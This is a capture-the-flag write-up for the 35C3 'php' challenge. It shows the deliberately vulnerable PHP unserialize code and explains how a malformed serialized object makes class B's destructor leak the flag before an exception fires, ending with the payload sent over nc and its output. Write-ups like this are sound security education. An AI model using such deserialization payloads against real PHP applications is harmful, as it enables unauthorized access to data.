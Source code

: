 ```yaml
---
layout: article
title: php
category: 35c3ctf
---
```


# php
>PHP's unserialization mechanism can be exceptional. Guest challenge by jvoisin.  
>Files at https://35c3ctf.ccc.ac/uploads/php-ff2d1f97076ff25c5d0858616c26fac7.tar. Challenge running at: `nc 35.242.207.13 1`

The tarball contains the following php code:

```php
<?php

$line = trim(fgets(STDIN));
$flag = file_get_contents('./flag');

class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}

$a = @unserialize($line);
throw new Exception('Well that was unexpected…');
echo $a;
```

and the service running at `35.242.207.13 1` verifies that it's running the above code.

```bash
➜ nc 35.242.207.13 1
test input
PHP Fatal error:  Uncaught Exception: Well that was unexpected… in /home/user/php.php:16
Stack trace:
#0 {main}
  thrown in /home/user/php.php on line 16
```

From the source code and challenge description, it's obvious this is a PHP deserialization challenge. Our goal is clear, serialize some PHP code that will force the destructor of `B` to be called, echo-ing the flag to our console, _before_ the exception is thrown.

So how exactly do you call a class destructor in PHP? Well, the destructor will be called when the all references to the object are freed or when the script terminates properly - i.e. without any thrown exceptions. Since the exception will be thrown directly after the unserialize call, we can't rely on the script properly terminating. We must call the `__destruct()` function ourselves, ensuring it's done prior the the exception.

One last thing to note before we try any exploits - the `@` symbol before `unserialize()`. For those unfamiliar, when `@` is prepended to a function, any error messages that function may produce will be completely ignored (see: [PHP Error Controls Operators](http://php.net/manual/en/language.operators.errorcontrol.php)). If we were to ignore this symbol we may still get the flag, but we'd miss the nuance of why we were able to get it.

## Solution
From our static analysis, we have a solid idea on the attack vector for this challenge. First let's verify our above analysis by creating a simple serialized object.

```bash
➜ php -a
Interactive shell

php > $flag = "35C3_test_flag_";
php > class B {
php { function __destruct() {
php { global $flag;
php { echo $flag;
php { }
php { }
php > $xpl = new B;
php > echo serialize($xpl);
O:1:"B":0:{}
php >
```
PHP serialized objects are structured as a key-value pairs. Breaking down our serialized object, we have an object `B` (of name length `1`), with `0` properties. For more information, see: [PHP Serialization](http://www.phpinternalsbook.com/classes_objects/serialization.html) and [Fuzzing Unserialize](https://www.evonide.com/fuzzing-unserialize/).

With this knowledge, we can abuse the error suppression to create and destroy an object without causing the script to terminate. By sending `@unserialize()` a bad serial, e.g. `O:1:"B":1:{}` or `O:1:"B":0:{b}`, we force the code to instantiate a new object `B` and then free the object (i.e. call the destructor) due to a bad serial exception. The `@` symbol will force the code to ignore the exception and continue executing.

```bash
➜ php nc 35.242.207.13 1
O:1:"B":1:{}
35C3_php_is_fun_php_is_fun
PHP Fatal error:  Uncaught Exception: Well that was unexpected… in /home/user/php.php:16
Stack trace:
#0 {main}
 thrown in /home/user/php.php on line 16
 ```

